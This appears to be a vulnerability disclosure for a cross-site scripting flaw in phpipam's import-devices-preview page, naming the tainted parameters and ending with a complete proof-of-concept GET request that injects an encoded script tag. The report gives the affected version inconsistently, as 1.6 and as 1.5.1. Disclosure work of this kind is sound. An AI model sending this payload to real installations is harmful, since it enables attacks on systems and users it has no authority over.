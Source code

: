 # Vulnerability Type

Cross-site Scripting

# Description

phpipam 1.6 is vulnerable to Cross Site Scripting (XSS) via app\admin\import-export\import-load-data.php.

# PoC Report

 ## Environment Setup

 - Software Link: https://github.com/phpipam/phpipam/
 - Version: 1.5.1
 - Tested on: Windows 10

 ## Exploit Description

The sink is located in `app/admin/import-export/import-devices-preview.php`, and the source of the tainted input is in `app/admin/import-export/import-load-data.php`. These two files are linked through a PHP `include`. XSS in phpipam occurs when `filetype`, `expfields`, and `importFields__<expfield>` parameters are properly set.

 ## Steps to Reproduce

 1. Login as an admin user.
 1. Send the request.
 1. Observe the result: 

![Image](assets/CVE-2024-41358.png)

 ## Proof Of Concept
```
GET http://phpipam/app/admin/import-export/import-devices-preview.php?&filetype=anyValidFiletype&expfields=%22%3E%3Cscript%3Ealert%281%29%3C/script%3E&importFields__%22%3E%3Cscript%3Ealert%281%29%3C/script%3E=anyValue
```

